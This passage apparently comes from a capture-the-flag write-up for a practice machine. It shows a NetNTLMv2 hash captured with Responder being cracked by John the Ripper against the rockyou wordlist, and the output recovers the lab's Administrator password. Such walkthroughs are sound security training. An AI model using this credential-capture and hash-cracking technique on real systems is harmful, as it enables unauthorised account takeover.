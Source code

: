 ![resp.py](/img/tier1/resp.py.png)

We just need to crack it.

### john the ripper
`john` (john the ripper) is one commonly used hash cracking tools. Let's copy this hash from `Responder` and throw it into a text file such as `hashed.txt`. Let `john` do the rest:

`john -w=/usr/share/wordlists/rockyou.txt hashed.txt`

```
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2022-10-25 23:58) 100.0g/s 409600p/s 409600c/s 409600C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
